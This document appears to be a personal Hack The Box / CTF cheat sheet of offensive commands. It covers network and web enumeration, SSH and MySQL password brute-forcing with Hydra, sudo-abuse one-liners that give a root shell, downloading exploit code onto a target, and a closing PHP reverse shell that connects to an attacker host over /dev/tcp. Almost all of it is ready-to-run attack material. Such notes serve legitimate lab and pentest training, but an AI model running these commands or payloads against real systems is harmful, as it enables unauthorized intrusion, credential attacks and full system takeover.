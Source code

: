 # Hackthebox
- default page ```/robots.txt``` ```/secret.txt```
- ```find / -name local.txt 2> /dev/null```
- ``` find -type d -name ".*" 2>/dev/null``` it will check hidden directories.
- [Reverse_Shell_Script](https://revshells.com)

- [Nmap](#nmap)
- [BurpSuite](#burp)
- [Gobuster](#gobuster)
- [FFUF](#ffuf)
- [Nikto](#nikto)
- [Privilege escalation](#privilegeescalation)
- [Mysql](#mysql)
- [Hydra](#hydra) - Brute force attack on ssh
- [FTP](#ftp) 
- [Cewl](#cewl) - It is use to create a worldlist using website link
- [netcat](#nc)


# Enumeration
- ## Nmap <a name="nmap"></a>
- ```nmap -sC -sV -vv -oA nmap/report.txt <ip>```
- ```sudo nmap -Pn -A -p- -T4 <ip> -o nmap.txt```
- [Squid](https://github.com/aancw/spose.git) Pivoting Open Port Scanner
  - Detecting open port behind squid proxy for CTF and pentest purpose using http proxy method. Only for Python 3 version.
  - ```python3 spose.py --proxy http://192.168.208.189:3128 --target 192.168.208.189```
  - if you detect new port for example: 8080 then you need to config your proxy in firefox set ```HTTP proxy 192.168.208.189``` and ```port 3128```
  - then only you can viste the website http://192.168.208.189:8080


- ## Gobuster <a name="gobuster"></a>
- ```gobuster dir -u <url> -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```
-  ```gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.60.132 -t 50 -x php,txt -o  gobuster.txt```  


- ## FFUF <a name="ffuf"></a>
- FFUF is used to filter the invalid pages 
- ```ffuf -u <url>/FUZZ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```
- ```ffuf -u <url>/FUZZ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -r -fs 27200```
  - if you are getting the size same of all use filter size and give the size there.

- ## Nikto <a name="nikto"></a>
- ```nikto -h http://127.0.0.1```
 
- ## Privilege escalation <a name="privilegeescalation"></a>
- ```python3 -c 'import os; os.system("/bin/bash")'```
- ```find /  -perm -u=s -type f 2>/dev/null``` to see the permission```
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system ```wget http://<myip>/<filename>```
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```


 - ## Burp Suite <a name="burp"></a>
- use ```/manager/html``` or ```/..;/manager/html``` in the middel of ```GET/ HTTP/1.1```
  - so it will like this ```GET/ /..;/manager/html HTTP/1.1```
  - whenever you see JSESSIONID=.... use this.
 
- use ```[]==``` for the password if you don't know the pass 

- ## Mysql <a name="mysql"></a>
- ```mysql -u root -p -h $ip```

- ## Hydra <a name="hydra"></a>
- ssh renu@127.0.0.1
- if you don't know the password do brute force attack. replace username with ```renu``` and ipaddress with ```127.0.01```
- ```hydra -l <username> -P /usr/share/wordlists/rockyou.txt <ipaddress> ssh -t 50```
- ```hydra -L users.txt -P passwords.txt ssh://192.168.245.48 -t 4 > hydra.txt```
- ```hydra -l root -P /usr/share/wordlists/rockyou.txt $ip mysql```


- ## FTP <a name="ftp"></a>
- ftp <ip>
  - user:anonymous
  - pass:
  - 230 Login successful
  - to upload a file use ```put <filename>```
  - to download a file use ```get <filename>```

- ## Cewl <a name="cewl"></a>
- ```cewl -w passwords.txt http://192.168.245.48:1898/?q=node/1```



- ## netcat <a name="nc"></a>
```php
<?php
 exec("/bin/bash -c 'bash -i >& /dev/tcp/attackerip/553 0>&1'");
?>
```



